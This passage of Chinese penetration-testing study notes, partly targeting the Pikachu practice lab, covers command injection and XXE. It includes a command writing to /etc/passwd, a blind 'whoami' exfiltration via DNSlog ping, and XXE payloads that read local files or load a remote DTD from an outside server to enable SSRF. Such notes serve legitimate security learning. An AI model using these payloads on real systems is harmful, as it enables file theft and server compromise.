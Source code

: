 ```
linux  网站需要有写权限
cat>/etc/passwd
```

> 无回显 仅linux

```bash
ping 'whoami'.dnslog...
```

### 挖掘技巧

> 白盒

直接搜索含有常用的调用函数，上下文看看有没有可控的参数

> 黑盒

找到系统可能调用的第三方资源，猜测后台代码是什么样的，后进一步进行分析，是否存在限制或者漏洞，用fuzz进行测试



## XXE漏洞

> pikachu xxe漏洞

>  读服务器文件

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY yjjy SYSTEM "file:///c:/windows/win.ini">
]>
<foo>&yjjy;</foo>
```

> 远程加载

```
自建服务器，存放dtd文件
<!ENTITY yjjy SYSTEM "file:///c:/yjjy.txt">

前端传参
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % a SYSTEM"http://10.135.32.105/yjjy.dtd">
%a ;
]>
<foo>&yjjy;</foo>

通过http协议，协助SSRF

无回显
伪协议请求
```

### 挖掘技巧
